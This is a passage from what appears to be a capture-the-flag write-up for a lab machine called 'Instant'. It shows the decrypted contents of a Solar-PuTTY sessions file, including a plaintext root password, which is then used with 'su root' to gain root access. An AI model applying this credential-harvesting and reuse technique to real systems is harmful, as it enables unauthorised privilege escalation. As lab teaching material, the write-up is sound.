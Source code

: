 ┌──(venv)─(kali㉿kali)-[/tmp]
└─$ cat SolarPutty_sessions_decrypted.txt 
{
    "Sessions": [
        {
            "Id": "066894ee-635c-4578-86d0-d36d4838115b",
            "Ip": "10.10.11.37",
            "Port": 22,
            "ConnectionType": 1,
            "SessionName": "Instant",
            "Authentication": 0,
            "CredentialsID": "452ed919-530e-419b-b721-da76cbe8ed04",
            "AuthenticateScript": "00000000-0000-0000-0000-000000000000",
            "LastTimeOpen": "0001-01-01T00:00:00",
            "OpenCounter": 1,
            "SerialLine": null,
            "Speed": 0,
            "Color": "#FF176998",
            "TelnetConnectionWaitSeconds": 1,
            "LoggingEnabled": false,
            "RemoteDirectory": ""
        }
    ],
    "Credentials": [
        {
            "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
            "CredentialsName": "instant-root",
            "Username": "root",
            "Password": "12**24nzC!r0c%q12",
            "PrivateKeyPath": "",
            "Passphrase": "",
            "PrivateKeyContent": null
        }
    ],
    "AuthScript": [],
    "Groups": [],
    "Tunnels": [],
    "LogsFolderDestination": "C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"
}
```

The decrypted text contains a password for root. This password is valid and grants us root privileges on instant.

```
shirohige@instant:~$ su root
Password: 
root@instant:/home/shirohige#
```